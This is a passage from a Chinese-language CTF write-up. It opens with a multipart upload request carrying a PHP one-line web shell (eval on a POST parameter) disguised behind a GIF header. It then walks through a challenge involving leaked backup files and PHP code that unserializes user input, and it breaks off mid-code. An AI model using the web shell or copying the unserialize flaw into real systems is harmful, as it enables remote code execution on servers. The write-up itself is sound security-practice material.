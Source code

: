 ```http
Content-Type: image/gif

GIF89a
<script language="php">
	eval($_POST['bme']);
</script>
------WebKitFormBoundary3x6kQ4KShfkzO4oS
Content-Disposition: form-data; name="submit"

鎻愪氦
------WebKitFormBoundary3x6kQ4KShfkzO4oS--
```

## PHP

> *2021/07/05*

### 题目

进网站翻源码，发现啥也没用，有一处关键信息**我有一个良好的备份网站的习惯**，说明这是一个**信息泄露**类型的题目，直接工具/手动翻，常见的包括`.php~ .php.bak .swp .swn .swo www.zip .php.old .php.txt`等等，这里找出来是`www.zip`，下载源码翻一下

```php
// index.php
<?php
    include 'class.php';
    $select = $_GET['select'];
    $res=unserialize(@$select);
?>
```

```php
// class.php
<?php
include 'flag.php';


error_reporting(0);


class Name{
    private $username = 'nonono';
    private $password = 'yesyes';

    public function __construct($username,$password){
        $this->username = $username;
        $this->password = $password;
    }

    function __wakeup(){
        $this->username = 'guest';
    }

    function __destruct(){
        if ($this->password != 100) {
            echo "</br>NO!!!hacker!!!</br>";
            echo "You name is: ";
            echo $this->username;echo "</br>";
            echo "You password is: ";
            echo $this->password;echo "</br>";
            die();
        }
        if ($this->username === 'admin') {
            global $flag;
```